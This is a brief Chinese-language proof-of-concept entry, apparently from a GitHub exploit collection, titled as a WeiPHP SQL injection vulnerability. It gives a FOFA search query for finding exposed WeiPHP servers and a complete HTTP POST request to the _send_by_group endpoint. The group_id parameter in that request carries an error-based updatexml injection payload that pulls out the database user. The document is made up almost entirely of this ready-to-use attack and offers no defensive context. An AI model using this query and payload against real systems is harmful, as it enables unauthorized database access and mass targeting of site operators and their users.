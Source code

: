 
## WeiPHP存在SQL注入漏洞

## fofa
```
app="WeiPHP"
```

## poc
```
POST /public/index.php/weixin/message/_send_by_group HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close
 
group_id[0]=exp&group_id[1]=%29+and+updatexml%281%2Cconcat%280x7e%2C%28select+user%28%29%29%2C0x7e%29%2C1%29+--
```
